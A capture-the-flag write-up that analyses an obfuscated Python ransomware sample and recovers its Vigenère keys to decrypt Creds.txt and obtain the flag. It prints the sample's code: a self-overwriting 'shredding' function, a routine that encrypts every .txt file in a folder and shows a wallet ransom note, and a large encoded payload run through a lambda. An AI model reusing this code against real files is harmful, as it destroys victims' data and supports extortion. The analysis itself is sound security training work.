X__ __XXX__×__XXX__Ï__XXX____XXX__Þ__XXX____XXX__¬__XXX__Í__XXX__£__XXX__ª__XXX__š__XXX__µ__XXX__Ì__XXX__¬__XXX__ß__XXX__™__XXX__ª__XXX__Ì__XXX__Š__XXX__¥__XXX__¯__XXX__t__XXX__Ã__XXX__i__XXX__Ã__XXX__Ä__XXX__«__XXX____XXX__³__XXX__Ì__XXX__Õ__XXX__À__XXX__ª__XXX__Ù__XXX__a__XXX__â__XXX__{__XXX__Û__XXX__ž__XXX__©__XXX__«__XXX__Í__XXX__±__XXX__®__XXX__“__XXX__¸__XXX__Ø__XXX__y__XXX__Ü__XXX__›__XXX__Â__XXX__§__XXX__Ú__XXX__·__XXX__ž__XXX__œ__XXX____XXX__®__XXX__¨__XXX__æ__XXX__”__XXX__å__XXX__˜__XXX__Ü__XXX__¡__XXX__®__XXX__ç__XXX__Ú__XXX__­__XXX__Ô__XXX__µ__XXX__¹__XXX__½__XXX__z__XXX__ª__XXX__ª__XXX__¼__XXX__¼__XXX__Õ__XXX__×__XXX__°__XXX__¿__XXX__±__XXX__À__XXX__¾__XXX__¿__XXX__‰__XXX__Ê__XXX____XXX__Ì__XXX__Ç__XXX__¬__XXX__æ__XXX__Ñ__XXX__¦__XXX____XXX__Ã__XXX__„__XXX__´__XXX__Ÿ__XXX__Í__XXX__k__XXX__µ__XXX__Š__XXX__—__XXX__§__XXX__Í__XXX__«__XXX__Æ__XXX__¾__XXX__·__XXX__Â__XXX__a__XXX__ð__XXX__~__XXX__×__XXX__ƒ__XXX__Ó__XXX____XXX__­__XXX__×__XXX__Ù__XXX__µ__XXX__„__XXX__¹__XXX__a__XXX__Á__XXX__”__XXX__Þ__XXX__½__XXX__Ÿ__XXX__ß__XXX__×__XXX__»__XXX__Ø__XXX____XXX__ˆ__XXX__¾__XXX__[__XXX__¬__XXX__‰__XXX__¾__XXX__Ç__XXX__±__XXX__ç__XXX__È__XXX__¬__XXX__™__XXX__¶__XXX__š__XXX__²__XXX__q__XXX__ð__XXX__u__XXX__À__XXX__‰__XXX__Â__XXX__½__XXX__¿__XXX__¦__XXX__½__XXX____XXX__—__XXX__Ù__XXX__y__XXX__Ã__XXX__e__XXX__Ã__XXX__£__XXX__¯__XXX__Þ__XXX__¶__XXX__Ü__XXX__Ó__XXX__›__XXX__¥__XXX__Î__XXX__£__XXX__®__XXX__©__XXX__Ç__XXX__Ç__XXX__™__XXX__¿__XXX__—__XXX__Ô__XXX__Ý__XXX__¾__XXX__„__XXX__Å__XXX__¤__XXX__ª__XXX__ __XXX__Ü__XXX__‹__XXX__á__XXX__ª__XXX__×__XXX__Ü__XXX__¶__XXX__–__XXX__—__XXX__»__XXX__v__XXX__Í__XXX____XXX__©__XXX__£__XXX__µ__XXX__À__XXX__¯__XXX__•__XXX__Ò__XXX__z__XXX__¹__XXX__¶__XXX__a__XXX__¸__XXX__|__XXX__¤__XXX__È__XXX__—__XXX__Å__XXX__°__XXX__»__XXX__Ú__XXX__¿__XXX__¡__XXX__á__XXX__t__XXX__½__XXX__d__XXX__Ó__XXX__¶__XXX__â__XXX__ä__XXX__°__XXX__Û__XXX__¬__XXX__Á__XXX__©__XXX__ž__XXX__€__XXX__Ê__XXX__ª__XXX__«__XXX__Å__XXX__¸__XXX__´__XXX__¸__XXX__•__XXX__É__XXX__‹__XXX__ __XXX__²__XXX__„__XXX__å__XXX__b__XXX__¢__XXX__Ì__XXX__˜__XXX__ç__XXX__­__XXX__µ__XXX__¨__XXX__±__XXX__–__XXX__Ý__XXX__˜__XXX__á__XXX__j__XXX__·__XXX__„__XXX__¸__XXX__Õ__XXX__Ê__XXX__®__XXX____XXX____XXX__¥__XXX__»__XXX__g__XXX__¢__XXX__‡__XXX__é__XXX__…__XXX____XXX__æ__XXX__°__XXX__«__XXX__×__XXX__Â__XXX__Ç__XXX__´__XXX__“__XXX__¨__XXX__™__XXX__¨__XXX__Â__XXX__×__XXX__Ý__XXX__œ__XXX__°__XXX__Ó__XXX__ __XXX__¤__XXX__ž__XXX__r__XXX__Ù__XXX__|__XXX__¨__XXX__¤__XXX__Ø__XXX__¢__XXX__´__XXX__œ__XXX__Ó__XXX____XXX__Ê__XXX__ž__XXX__c__XXX__Ê__XXX__†__XXX__ê__XXX__¿__XXX__©__XXX__¾__XXX__´__XXX__Û__XXX__Ý__XXX__Â__XXX__†__XXX__½__XXX__¥__XXX__î__XXX__}__XXX__â__XXX__»__XXX__ß__XXX__é__XXX__©__XXX__›__XXX__—__XXX__«__XXX__Ÿ__XXX__²__XXX__q__XXX__ë__XXX__i__XXX__¢__XXX__µ__XXX__Ù__XXX__Õ__XXX__·__XXX__Ç__XXX__±__XXX__{__XXX__ˆ__XXX__ä__XXX__t__XXX__î__XXX__€__XXX__â__XXX__Ÿ__XXX__Ë__XXX__É__XXX__˜__XXX__•__XXX__–__XXX__Š__XXX__‰__XXX__Õ__XXX__{__XXX__º__XXX__—__XXX__ê__XXX__†__XXX__š__XXX__Æ__XXX__Ù__XXX__¹__XXX__Ý__XXX__š__XXX__º__XXX__ž__XXX__‘__XXX__Å__XXX__‰__XXX__ã__XXX__¬__XXX__¿__XXX__Ã__XXX__ž__XXX__Ø__XXX__°__XXX__¼__XXX__É__XXX__Æ__XXX__©__XXX__¹__XXX__z__XXX__Ó__XXX__¤__XXX__Ï__XXX__Ü__XXX__”__XXX__›__XXX__Ð__XXX__­__XXX__É__XXX__Ò__XXX__©__XXX__¸__XXX____XXX__Ú__XXX__Â__XXX__·__XXX__º__XXX__½__XXX__¶__XXX__®__XXX__Ÿ__XXX__ª__XXX__±__XXX__„__XXX__è__XXX__€__XXX__º__XXX__‡__XXX__Ø__XXX__Ó__XXX__˜__XXX__Ò__XXX__Ü__XXX__š__XXX__¤__XXX__¢__XXX__~__XXX__¹__XXX__›__XXX__¼__XXX____XXX__Ù__XXX__Ë__XXX__®__XXX__—__XXX__µ__XXX__y__XXX__Ê__XXX__Î__XXX__‘__XXX__ë__XXX__^__XXX__¶__XXX__Å__XXX__«__XXX__×__XXX__›__XXX__¾__XXX__«__XXX__º__XXX__¿__XXX__»__XXX__›__XXX__Æ__XXX__y__XXX__Ç__XXX__ __XXX__½__XXX__¥__XXX__×__XXX__˜__XXX__Þ__XXX__•__XXX__Ÿ__XXX__Ù__XXX__¡__XXX__Þ__XXX__}__XXX__à__XXX__¿__XXX__®__XXX__¸__XXX__”__XXX__·__XXX__™__XXX__–__XXX__Â__XXX__¶__XXX__u__XXX__Þ__XXX__u__XXX__æ__XXX__É__XXX__Ú__XXX__Ø__XXX__–__XXX__›__XXX__Þ__XXX__°__XXX__™__XXX__®__XXX__‡__XXX__Ç__XXX__f__XXX__½__XXX__—__XXX__Á__XXX__¹__XXX__¯__XXX__©__XXX__Ç__XXX__£__XXX__–__XXX__æ__XXX__¨__XXX__é__XXX__Š__XXX__Ê__XXX__¨__XXX__¹__XXX__Ó__XXX__Ü__XXX____XXX__–__XXX__}__XXX__«__XXX__Ð__XXX__Ÿ__XXX__è__XXX__Œ__XXX__£__XXX__Ë__XXX__á__XXX__à__XXX__·__XXX__™__XXX__Í__XXX__·__XXX__À__XXX__à__XXX__w__XXX__¹__XXX__~__XXX__¸__XXX__†__XXX__¹__XXX__ª__XXX__©__XXX__¯__XXX__µ__XXX__²__XXX__Í__XXX__Å__XXX__ª__XXX__Þ__XXX__¨__XXX__ä__XXX__µ__XXX__“__XXX__£__XXX____XXX____XXX__“__XXX__¡__XXX__†__XXX__›__XXX__h__XXX__¢__XXX__l__XXX__¡__XXX__‚__XXX__â__XXX__ì__XXX____XXX__½__XXX__Ñ__XXX__™__XXX__¸__XXX____XXX__~__XXX__Ç__XXX__c__XXX__¡__XXX__¢__XXX__µ__XXX__È__XXX__•__XXX__ª__XXX__©__XXX____XXX__Œ__XXX__›__XXX__¦__XXX__Ï__XXX__§__XXX__ì__XXX__È__XXX__®__XXX__ß__XXX__¹__XXX__³__XXX__È__XXX__™__XXX__¡__XXX__ __XXX__g__XXX__Ì__XXX__t__XXX__ç__XXX__˜__XXX__½__XXX__£__XXX__×__XXX__Ó__XXX____XXX__Œ__XXX__¼__XXX__¢__XXX__¡__XXX__ê__XXX__›__XXX__Å__XXX__«__XXX__Ÿ__XXX__Þ__XXX__»__XXX__Ü__XXX__®__XXX__®__XXX__{__XXX__•__XXX__Y__XXX____XXX__=
```

The shredding function is XXXXXXXXXJSPRRRJSDSAUDJSNSNSWI 
```python
def XXXXXXXXXJSPRRRJSDSAUDJSNSNSWI():
        oiiiiiiiiiujauqobsolute2311 = os.path.abspath(__file__)
    
        with open(oiiiiiiiiiujauqobsolute2311, "r", encoding="utf-8") as f:
            script_data = f.read()
        IIIllIIlllIIIIlIII = base64.b64decode(lllllllllllllll('.' + '@#=@' + '#=g#Cm9' + 'F|d#-wl#nc_j' + '#5W.Z')[::-1].replace('_', '').replace('.', '').replace('|', '').replace('-', '').replace('#', '').replace('@', '')).decode('utf-8').strip()
        i = script_data.index(IIIllIIlllIIIIlIII)
        juyt = script_data[i:]
        liiencrypt = dshyXXXlsoe(juyt, sowiaaaandowTgsRETfs, llllllllllllllki=env)
        new_script_data = script_data[:i] + liiencrypt
        with open(oiiiiiiiiiujauqobsolute2311, "w", encoding="utf-8") as f:
            f.write(new_script_data)
        subprocess.run(["rm", "-f", "env"])
```

it simply shredd the last part of the flag from a given place which is after deobfuscation `encrypt_f`. also it shredd by encryption with vigenere cipher so we need to recover the key since we know a part of the plain text `encrypt_f` and i give a hint about `encrypt_files`. so here is how we get the key

first save the shredded part in a txt file `encfile.txt`

```python
with open("encfile.txt","r") as f:
    file=f.read()[:-1]
    
file=file.split("__XXX__")
key_partial=""
known="encrypt_files"
for i in range(13):
    key_partial+=chr(ord(file[i])-ord(known[i]))
print(key_partial)
```
 

the key is : `ShreedITl0w3r`

then we can unshredd the content.

we got 
```python
def encrypt_files(lsoeiuw):
    for file in glob.glob(f"{lsoeiuw}/*.txt"):
        with open(file, "r", encoding="utf-8") as f:
            data = f.read()
        ldoeigtt = ksii344(data, ouiiiiiiiiipppppppppppppppp)
        with open(file, "w", encoding="utf-8") as f:
            f.write(ldoeigtt)
        print(f"You are hacked , To recover your fls, show me your kindness in my wallet 0x6972fab392e. DELAI : 5 Days.")
def ksii34e(text, llkjhhjkkkkkkLONG):
    eeeeeeeeeeeeeeeeeeeeeeXXrted = []
    lkjhs = len(llkjhhjkkkkkkLONG)
    for i, ch in enumerate(text):
        COLLOSALkhsTfrff2133 = chr((ord(ch) + ord(llkjhhjkkkkkkLONG[i % lkjhs])) % 256)
        eeeeeeeeeeeeeeeeeeeeeeXXrted.append(COLLOSALkhsTfrff2133)
def ksii34f(text, llkjhhjkkkkkkLONG):
    eeeeeeeeeeeeeeeeeeeeeeXXrted = []
    lkjhs = len(llkjhhjkkkkkkLONG)
    for i, ch in enumerate(text):
        COLLOSALkhsTfrff2133 = chr((ord(ch) + ord(llkjhhjkkkkkkLONG[i % lkjhs])) % 256)
        eeeeeeeeeeeeeeeeeeeeeeXXrted.append(COLLOSALkhsTfrff2133)
def ksii34s(text, llkjhhjkkkkkkLONG):
    eeeeeeeeeeeeeeeeeeeeeeXXrted = []
    lkjhs = len(llkjhhjkkkkkkLONG)
    for i, ch in enumerate(text):
        COLLOSALkhsTfrff2133 = chr((ord(ch) + ord(llkjhhjkkkkkkLONG[i % lkjhs])) % 256)
        eeeeeeeeeeeeeeeeeeeeeeXXrted.append(COLLOSALkhsTfrff2133)
def ksii34k(text, llkjhhjkkkkkkLONG):
    eeeeeeeeeeeeeeeeeeeeeeXXrted = []
    lkjhs = len(llkjhhjkkkkkkLONG)
    for i, ch in enumerate(text):
        COLLOSALkhsTfrff2133 = chr((ord(ch) + ord(llkjhhjkkkkkkLONG[i % lkjhs])) % 256)
        eeeeeeeeeeeeeeeeeeeeeeXXrted.append(COLLOSALkhsTfrff2133)
_ = lambda __ : __import__('zlib').decompress(__import__('base64').b64decode(__[::-1]));print((_)(b'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'))
```

Emmm its a ransomware

deobsucating the last encoded part
```python
if __name__ == "__main__":
    with open("env","r") as djts:
        lkj=djts.read()[:-1]
    env=lkj
    ouiiiiiiiiipppppppppppppppp = lllllllllllllll("h@YJ@H--FEON|||S..P@##ENJJ__SRfeiois@@jw#re1f--1ed-es").replace('_','').replace('.','').replace('|','').replace('1','').replace('-','').replace('#','').replace('@','')
    sowiaaaandowTgsRETfs= lllllllllllllll("@r@3_w_0#1l___T...|....|..Ide||||@#e##||...............r---------h_S")[::-1].replace('_','').replace('.','').replace('|','').replace('1','').replace('-','').replace('#','').replace('@','')
    XXXXXXXXXJSPRRRJSDSAUDJSNSNSWI()
    encrypt_files(os.path.expanduser("."))
```

so as seen the encryption of the files is also using vigenere cipher. 

```python
lllllllllllllll("h@YJ@H--FEON|||S..P@##ENJJ__SRfeiois@@jw#re1f--1ed-es").replace('_','').replace('.','').replace('|','').replace('1','').replace('-','').replace('#','').replace('@','')

```

> output (key) : `hYJHFEONSPENJJSRfeioisjwrefedes`

And now taraa we can decrypt our files (.txt) and get the flag, since the only text file in the Downloads directory is Creds.txt
```python
def reverse_ksii344(text, llkjhhjkkkkkkLONG):
    decrypted = []
    lkjhs = len(llkjhhjkkkkkkLONG)
    for i, ch in enumerate(text):
        original_char = chr((ord(ch) - ord(llkjhhjkkkkkkLONG[i % lkjhs])) % 256)
        decrypted.append(original_char)
    return "".join(decrypted)


key = "hYJHFEONSPENJJSRfeioisjwrefedes"
flag=reverse_ksii344(open("Creds.txt","r").read(), key)  
print(flag)
```


> flag : `MCSC{5hr33d3d_m4lw4re5_bU7_w17h_v1g3n3re??????_m4n_c0m3_000000n}`